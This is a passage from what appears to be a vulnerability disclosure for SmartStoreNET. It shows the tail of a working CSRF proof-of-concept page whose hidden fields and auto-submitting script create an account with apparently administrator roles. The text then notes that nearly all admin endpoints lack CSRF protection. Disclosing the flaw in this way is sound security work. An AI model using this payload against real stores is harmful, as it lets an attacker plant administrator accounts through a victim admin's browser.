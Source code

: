       <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"Password"</span> <span class="na">value=</span><span class="s">"aaaaaa"</span> <span class="nt">/&gt;</span>
      <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"FirstName"</span> <span class="na">value=</span><span class="s">""</span> <span class="nt">/&gt;</span>
      <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"LastName"</span> <span class="na">value=</span><span class="s">""</span> <span class="nt">/&gt;</span>
      <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"DateOfBirth"</span> <span class="na">value=</span><span class="s">""</span> <span class="nt">/&gt;</span>
      <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"Company"</span> <span class="na">value=</span><span class="s">""</span> <span class="nt">/&gt;</span>
      <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"AdminComment"</span> <span class="na">value=</span><span class="s">""</span> <span class="nt">/&gt;</span>
      <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"SelectedCustomerRoleIds"</span> <span class="na">value=</span><span class="s">"1"</span> <span class="nt">/&gt;</span>
      <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"SelectedCustomerRoleIds"</span> <span class="na">value=</span><span class="s">"3"</span> <span class="nt">/&gt;</span>
      <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"IsTaxExempt"</span> <span class="na">value=</span><span class="s">"false"</span> <span class="nt">/&gt;</span>
      <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"Active"</span> <span class="na">value=</span><span class="s">"true"</span> <span class="nt">/&gt;</span>
      <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"Active"</span> <span class="na">value=</span><span class="s">"false"</span> <span class="nt">/&gt;</span>
      <span class="nt">&lt;input</span> <span class="na">type=</span><span class="s">"hidden"</span> <span class="na">name=</span><span class="s">"LoadedTabs"</span> <span class="na">value=</span><span class="s">"&amp;#35;customer&amp;#45;edit&amp;#45;1"</span> <span class="nt">/&gt;</span>
    <span class="nt">&lt;/form&gt;</span>
    <span class="nt">&lt;script&gt;</span>
      <span class="nb">document</span><span class="p">.</span><span class="nx">forms</span><span class="p">[</span><span class="mi">0</span><span class="p">].</span><span class="nx">submit</span><span class="p">();</span>
    <span class="nt">&lt;/script&gt;</span>
  <span class="nt">&lt;/body&gt;</span>
<span class="nt">&lt;/html&gt;</span>
</code></pre></div></div>
<p>Similar PoCs can be made for other operations. The only administrative endpoint protected from CSRF is <code class="language-plaintext highlighter-rouge">scheduletask/edit</code>. SmartStoreNET filters IP addresses an administrator is allowed to connect from, but this doesn’t protect from the CSRF attack because a legitimate administrator’s browser is tricked to perform the action in the context of a CSRF attack.</p>
